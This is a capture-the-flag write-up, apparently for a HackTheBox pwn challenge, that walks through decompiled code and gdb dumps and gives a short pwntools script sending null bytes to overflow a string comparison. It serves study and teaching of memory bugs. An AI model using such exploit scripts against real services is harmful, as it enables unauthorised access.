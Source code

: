 ```yaml
---
title:  "[CTF] Shell Shop"
categories: [CTF, HTB, Pwn]
---
```


*Marty, I found a letter from someone in my pocket that says Time Travel is possible and provides the ingredients and a secret formula. The note is not 100% readable due to the time and I cannot fully understand the handwritting either. Please help me read the note and let's get to work creating this thing!*!

## Understanding the challenge

The challenge presents a randomly-coloured flask with a story, and asks for the missing ingredient:
![Menu](/assets/images/Formula/menu.png)
Behind the scenes, we can understand more about the code from Ghidra’s decompiled version:

```c
undefined8 main(void)

{
  int iVar1;
  long in_FS_OFFSET;
  char local_20 [7];
  undefined8 local_19;
  undefined local_11;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  story();
  local_19 = 0x75696e6f74756c50;
  local_11 = 0x6d;
  read(0,local_20,8);
  iVar1 = strcmp(local_20,(char *)&local_19);
  if (iVar1 == 0) {
    success();
  }
  else {
    fail();
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```


In terms of security protections against exploitation, the binary has most of the checkboxes ticked:
![Checksec](/assets/images/Formula/checksec.png)
The challenge reads the ingredient from user input into the variable `local_20` (8 bytes), and compares it with the hardcoded ingredient Plutonium (9 bytes) - `0x75696e6f74756c50` and `0x6d`.

## Vulnerability identification

To locate the vulnerability, we need to examine the stack before the comparison which leads to `success()` is being made:

```asm
=> 0x555555400efd <main+92>:    call   0x555555400a00 <strcmp@plt>
   0x555555400f02 <main+97>:    test   eax,eax
   0x555555400f04 <main+99>:    jne    0x555555400f0d <main+108>
   0x555555400f06 <main+101>:   call   0x555555400b9a <success>
   0x555555400f0b <main+106>:   jmp    0x555555400f12 <main+113>
   0x555555400f0d <main+108>:   call   0x555555400c40 <fail>
   0x555555400f12 <main+113>:   mov    eax,0x0
   0x555555400f17 <main+118>:   mov    rcx,QWORD PTR [rbp-0x8]
```

According to the [Linux x64 calling convention](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame), the first two function parameters are accessed via the RDI and RSI registers:

```asm
// Plutonium (hardcoded)
gdb$ x/16b $rsi
0x7fffffffde0f: 0x50    0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75
0x7fffffffde17: 0x6d    0x00    0x1b    0x6d    0x5b    0xc6    0x4c    0xe2

// Ingredient (user input - ABCD)
gdb$ x/16b $rdi
0x7fffffffde08: 0x41    0x42    0x43    0x44    0x0a    0x00    0x00    0x50
0x7fffffffde10: 0x6c    0x75    0x74    0x6f    0x6e    0x69    0x75    0x6d
0x7fffffffde18: 0x00

gdb$ x/s $rsi
0x7fffffffde0f: "Plutonium"

gdb$ x/s $rdi
0x7fffffffde08: "ABCD\n"
```

So we can read 8 bytes, and the 8th one will overwrite the first letter of the first letter of the hardcoded ingredient, `0x50` (**P**). 

## Exploitation

Even if not obvious straight away, the exploitation is actually quite easy. The only option to make the two strings equal is to *make them both `NULL`*, by sending 8 zeros as the secret ingredient.


```python
from pwn import *

conn = remote('<IP>', '<PORT>')

# Receive formula
print(conn.recvrepeat(2))

conn.send('\x00' * 8)
print(conn.recvrepeat(2))

conn.close()
```

## References

* [Linux x64 calling conventions and stack frame](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame)

